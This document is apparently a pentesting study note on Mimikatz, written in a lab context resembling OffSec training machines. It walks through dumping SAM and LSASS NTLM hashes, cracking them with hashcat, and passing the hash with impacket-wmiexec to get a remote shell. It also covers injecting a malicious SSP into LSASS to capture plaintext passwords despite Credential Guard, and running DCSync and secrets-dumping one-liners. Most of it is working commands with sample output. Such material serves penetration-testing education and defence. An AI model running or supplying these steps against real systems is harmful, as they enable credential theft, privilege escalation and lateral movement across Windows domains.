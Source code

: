 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mimikatz

Each command in `mimikatz` consists of a module and a command delimited by two colons (`module::command`).&#x20;

## SAM

**NTML** stores unsalted hashed passwords in **SAM** database (`c:\windows\system32\config\sam`) which cannot be copied while the Windows OS is running.  **Local Security Authority System (LSASS)** runs with `SYSTEM` privileges and caches NTLM hashes.

1. We can extract the NTML hashes if we have `Administrator` / `SYSTEM` privileges and the `SeDebugPrivilege` access right enabled. We can enable the latter with `privilege::debug`.
2. We can use `token::elevate` module to elevate our privileges to `SYSTEM` if we have the `SeImpersonatePrivilege` access right. All local `administrators` have it by default.

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. PrivEsc" %}
{% code overflow="wrap" %}
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

660     {0;000003e7} 1 D 41815          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001035c2} 2 F 1710035     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1981690     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
{% endcode %}
{% endtab %}

{% tab title="3. Dump SAM" %}
```powershell
mimikatz # lsadump::sam
<SNIP>

RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10

<SNIP>
```
{% endtab %}

{% tab title="4. Crack" %}
{% code overflow="wrap" %}
```bash
hashcat -m1000 nelly_ntml /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Pass-the-Hash

Unlike local account hashes which are stored in SAM, **domain hashes** are stored in memory of the Local Security Authority Subsystem Service process (`lsass.exe`).

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. LSASS" %}
```powershell
mimikatz # sekurlsa::logonpasswords
<SNIP>

Authentication Id : 0 ; 5468350 (00000000:005370be)
Session           : RemoteInteractive from 5
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 2:08:28 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
<SNIP>
```
{% endtab %}

{% tab title="3. PtH" %}
{% code overflow="wrap" %}
```bash
# with the domain's admin hash, we can perform a PtH attack.
$ impacket-wmiexec -debug -hashes :160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] SMBv3.0 dialect used
[+] Target system is 192.168.50.248 and isFQDN is False
[+] StringBinding: SERVERWK248[64285]
[+] StringBinding: 192.168.50.248[64285]
[+] StringBinding chosen: ncacn_ip_tcp:192.168.50.248[64285]
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SSP Injection

Credential Guard uses Virtualization-Based Security (VBS) to protect credentials by isolating them in a secure environment. VBS creates protected memory regions that the OS cannot access, enforced by Virtual Trust Levels (VTLs). VTL0 hosts the regular Windows environment, while VTL1 runs critical security functions.&#x20;

When enabled, **Credential Guard** **moves credential storage from LSASS to an isolated process (`LSAISO.exe`) in VTL1, communicating with LSASS in VTL0**. This prevents tools like Mimikatz, operating in VTL0, from accessing credential data. Introduced in Windows 10 and Server 2016, it is now enabled by default on modern Windows installations, though older systems may have it disabled.

> _**Credential Guard is only designed to protect non-local users**. This means that we are still able to obtain NTLM hashes for the local users on the target machine._

If we repeat the above PtH attack, and Credential Guard is enabled, we won't be able to get the domain's `Administrator` hash. While we know the `Administrator` user of the `CORP.COM` domain has logged into this box, we can't obtain the cached hashes because **the** `LSASS` **process only has access to this information after it has been encrypted by the** `LSAISO` **process**.

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 4214404 (00000000:00404e84)
Session           : RemoteInteractive from 4
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 4:39:07 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
           * LSA Isolated Data: NtlmHash
             KdfContext: 7862d5bf49e0d0acee2bfb233e6e5ca6456cd38d5bbd5cc04588fbd24010dd54
             Tag       : 04fe7ed60e46f7cc13c6c5951eb8db91
             AuthData  : 0100000000000000000000000000000001000000340000004e746c6d48617368
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
```
{% endcode %}

To bypass Credential Guard, attackers **intercept credentials during login instead of retrieving cached ones**. Windows authentication uses the Security Support Provider Interface (SSPI) with providers like Kerberos and NTLM. By registering a malicious SSP via the registry or injecting it into LSASS, attackers can capture plaintext credentials as they pass through SSPI. Mimikatz’s `memssp` module automates this by injecting an SSP into LSASS memory, capturing credentials without writing files to disk.

```powershell
mimikatz # misc::memssp
Injected =)
```

At this point, when another user remotely connects to the machine their credentials will be captured.

```powershell
> type C:\Windows\System32\mimilsa.log
<SNIP>
[00000000:0066608e] CORP\Administrator  QWERTY123!@#
<SNIP>
```

## Other

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit 
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="mimikatz.exe" %}
{% embed url="https://github.com/gentilkiwi/mimikatz/" %}
{% endtab %}

{% tab title="Invoke-Mimikatz.ps1" %}
{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
{% endtab %}
{% endtabs %}
